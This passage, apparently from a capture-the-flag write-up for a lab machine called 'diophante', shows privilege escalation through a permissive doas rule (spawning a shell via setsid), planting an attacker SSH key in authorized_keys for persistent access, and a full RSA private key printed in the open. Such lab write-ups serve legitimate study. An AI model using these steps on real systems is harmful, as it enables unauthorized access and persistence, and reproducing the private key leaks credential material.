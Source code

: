 ```sh
www-data@diophante:~$ cat /etc/doas.conf
cat /etc/doas.conf
permit nopass www-data as sabine cmd /usr/bin/setsid
permit nopass sabine as leonard cmd /usr/bin/mutt

www-data@diophante:~$
```

`doas -u sabine /usr/bin/setsid sh`

```sh
www-data@diophante:~$ doas -u sabine /usr/bin/setsid sh
doas -u sabine /usr/bin/setsid sh
sh: 0: cant access tty; job control turned off
$ id
id
uid=1000(sabine) gid=1000(sabine) groups=1000(sabine),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
$
```

## SSH Login

- authorized_keys

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLe0DXlGG7DIv/diQkpGJrergOw2/2e1FRfRvb57jjz6fbZhcgFtb+3JrEyNeJVO6rQFKN8J5yw9UQpG5FpTMF4Yu8XaEvuUESHK98pnUmiKK6SGS4vrCJjaM5+B/TQ8iKqv2jL5hpF0DNmOyI25HekQGkNM2yUrzisBaOawKDyURPoNMHnn+bYXWOPo2S+nP4aCadcov7hD/RPPgYO68oCpuHy3kYr4S6ZTtevsl6iU/D10C/zUGuSvnVJ8zSSyIR1tw0O/N5afQvOVlzxSTg3opv4Lje/d5ofvA7ky/OWsAPfXnDZXP4wFJDZHNBGEuIhLNFQDB/4lYbiWupFZD alienum@kali" > authorized_keys
```

- id_Rsa

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEArS3tA15RhuwyL/3YkJKRia3q4DsNv9ntRUX0b2+e448+n22Y
XIBbW/tyaxMjXiVTuq0BSjfCecsPVEKRuRaUzBeGLvF2hL7lBEhyvfKZ1Joiiukh
kuL6wiY2jOfgf00PIiqr9oy+YaRdAzZjsiNuR3pEBpDTNslK84rAWjmsCg8lET6D
TB55/m2F1jj6Nkvpz+GgmnXKL+4Q/0Tz4GDuvKAqbh8t5GK+EumU7Xr7JeolPw9d
Av81Brkr51SfM0ksiEdbcNDvzeWn0LzlZc8Uk4N6Kb+C43v3eaH7wO5MvzlrAD31
5w2Vz+MBSQ2RzQRhLiISzRUAwf+JWG4lrqRWQwIDAQABAoIBAHRjMjAaWnZwFUa1
tq9rIc7DCOCML7BpeRIecqnV/ZX4NmEVWdmJFl1aP0qBATsLoRsLnJtRoC0UcIfz
eVZIO9ZyVOcFtt5+IRJg0mSgQAxnTqHHDp5WV6rV3cGTMQi9NFeFEC9R5b1fpnc7
PYOCVmJJZKB5AsqGPA4ziRTaP6o96kHkLIF3Nkz1sJZtnHcmDDmPHARDMC0xJvE+
xm8K3RfeK4G4F31TQzg/ZI2INVFCJv9hy81SmOQgIIpzTI1Y85neqJ4g7LfUFcdu
bKUSRNAvDnlPzVbkci3pcOE9XcIKX/arV6XkuSVJj+EkX3+PYZm3oZqeF29wqHsP
9m0Qw2ECgYEA2aoA4cvJ3LGo1SWeX+mt/wERf3H+xGgjhN0OyAzWp0UB6IcaUkzx
kISztdqNlSa69hZ5pHbJRYe3ulbbCaouxt3+u6OSg4sw3unf7dmpzyz4uBs4gGw2
GUThr1sVdbBkrazn69d1USZ/kPw7GqQIDBLh9JZNJSnmQBLitGt49/ECgYEAy640
pg3rE8OPEy7wA6FK2Ld2mykb4NpjcX5spTXM1BiNPK2IT9tt5YzwlzY88hGrmXeR
i/AmWIrT3y4HN3pppDeuqrZpBA9qEhwYpApHB3xojhTiZcCYdZ/YBnMNDqZNjvp+
iAQ8S44PnRXI2qeEzwR+hC60FZFv+eg8/2UJRXMCgYEAgni5FqAFXFjSDxIBoRR9
y8FkL7SxNiIGSHoJhjjL4nAm+K8jQ/oDQtGIt5VOEP2qTCCkwcTCWP9FTlkJ6v0s
FOC09NzT0i35GWWvaO90Lk+Styj58WDr/LGhZm9+qZEWiFSAoIoCNKaTCOFovEte
133qG6aMj55R+k5XvjY9yMECgYEAvjOf1rGIpJwqL6/VUo58ZoRsrdhlwEQwOPvm
WSE0dZu3yMIEWQ6AQayrv4lWwHbf2CBgOl24cVazI+bHtncJz+Bvq9tLlg8O7npu
SEGQstzqhkPaZ0rDFJSAFwW5W8TRCIPDRSEvbR7sVbTSK93jl66KtsUmRj3aY3UM
ATNIxSECgYBhSyM6UfTbOWId8LSRn0u/Z06bOQ0bPDKjksFY8ESDJzCRI0LIjmal
ZyA+4wLSp3AemizoQXG6CKjayLd0P1LiEUHZQY5AzUh+L81BiglksRYSIdujfO4Q
G4nGiJOiOEZAdkKKONJ5zVNDiASTODqByEeUA6lzX3gyYL3vDvUwQg==
-----END RSA PRIVATE KEY-----
```
